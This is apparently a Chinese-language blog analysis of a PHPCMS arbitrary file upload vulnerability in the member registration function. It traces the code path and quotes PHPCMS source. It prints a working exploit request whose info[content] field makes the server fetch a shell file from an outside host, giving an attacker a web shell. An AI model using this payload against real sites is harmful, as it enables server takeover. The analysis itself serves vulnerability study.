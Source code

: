 phpcms 四月份左右和sql注入漏洞一同，爆出了一个任意文件上传漏洞，漏洞利用比较简单，危害很大，可以直接前台getshell.  这里来一块分析一下。

漏洞利用点是注册的地方，我们来看一下常见的一个payload:

    index.php?m=member&c=index&a=register&siteid=1

    post数据： 
    siteid=1&modelid=11&username=test&password=testxx&email=test@qq.com&info[content]=<img src=http://www.blogsir.com.cn/lj_ctf/shell.txt?.php#.jpg>&dosubmit=1
    
我们来动态调试去跟踪代码, phpcms 注册在模块`/phpcms/modules/member` 的index.php文件中，找到register函数，130行左右的代码

```php
//附表信息验证 通过模型获取会员信息
if($member_setting['choosemodel']) {
	require_once CACHE_MODEL_PATH.'member_input.class.php';
    require_once CACHE_MODEL_PATH.'member_update.class.php';
	$member_input = new member_input($userinfo['modelid']);
	$_POST['info'] = array_map('new_html_special_chars',$_POST['info']);
	$user_model_info = $member_input->get($_POST['info']);				     
```


首先包含了caches/caches_model/下面的两个文件，并通过modelid new了一个member_input类， 我们来看一下这两个文件, 这两个文件都调用一个model

    pc_base::load_model('sitemodel_field_model');
    
phpcms 的models文件在`/phpcms/model`目录下

```php
<?php
defined('IN_PHPCMS') or exit('No permission resources.');
pc_base::load_sys_class('model', '', 0);
class sitemodel_field_model extends model {
	public $table_name = '';
	public function __construct() {
		$this->db_config = pc_base::load_config('database');
		$this->db_setting = 'default';
		$this->table_name = 'model_field';
		parent::__construct();
	}
	/**
	 * 删除字段
	 * 
	 */
	public function drop_field($tablename,$field) {
		$this->table_name = $this->db_tablepre.$tablename;
		$fields = $this->get_fields();
		if(in_array($field, array_keys($fields))) {
			return $this->db->query("ALTER TABLE `$this->table_name` DROP `$field`;");
		} else {
			return false;
		}
	}
	
	/**
	 * 改变数据表
	 */
	public function change_table($tablename = '') {
		if (!$tablename) return false;
		
		$this->table_name = $this->db_tablepre.$tablename;
		return true;
	}
}
?>
```
